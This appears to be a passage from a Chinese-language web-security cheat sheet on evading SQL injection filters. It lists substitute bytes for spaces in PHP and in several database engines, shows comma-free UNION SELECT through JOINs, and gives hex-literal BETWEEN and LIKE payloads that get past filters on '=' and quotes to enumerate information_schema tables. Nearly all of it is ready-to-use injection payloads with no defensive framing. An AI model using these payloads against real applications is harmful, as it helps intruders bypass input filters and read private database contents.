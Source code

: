 空格可以使用如下替代：

> 在php中 \s 会匹配0x09,0x0a,0x0b,0x0c,0x0d,0x20

```
09：Horizontal Tab
0A：New Line
0B：Vertical Tab
0C：New Page
0D：Carriage Return
A0：Non-breaking Space
20：Space
a0：空格
2B：+
2D：-
7E：~
21：!
40：@
```

空格替换为：#Xburne%0a

在特定数据库中可以使用以下替代：

```
SQLite3：0A 0D 0C 09 20
MySQL5 09：0A 0B 0C 0D A0 20
PosgresSQL：0A 0D 0C 09 20
Oracle 11g：00 0A 0D 0C 09 20
MSSQL：01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20
```

示例：

```
SELECT 1 FROM dual WHERE 1=1 AND-+-+-+-+~~((1))
' or --+2=- -!!!'2
```

### 过滤逗号

使用语法绕过：

```
SQL> UNION SELECT * FROM ((SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c);
实际上也就相当于：
SQL> UNION SELECT 1,2,3;
```

### 过滤 = ( '

```
过滤：1 union select 1, table_name from information_schema.tables where table_name = 'users'
过滤：1 union select 1, table_name from information_schema.tables where table_name between 'a' and 'z'
过滤：1 union select 1, table_name from information_schema.tables where table_name between char(97) and char(122)

绕过：1 union select 1, table_name from information_schema.tables where table_name between 0x61 and 0x7a
绕过：1 union select 1, table_name from information_schema.tables where table_name like 0x7573657273
```

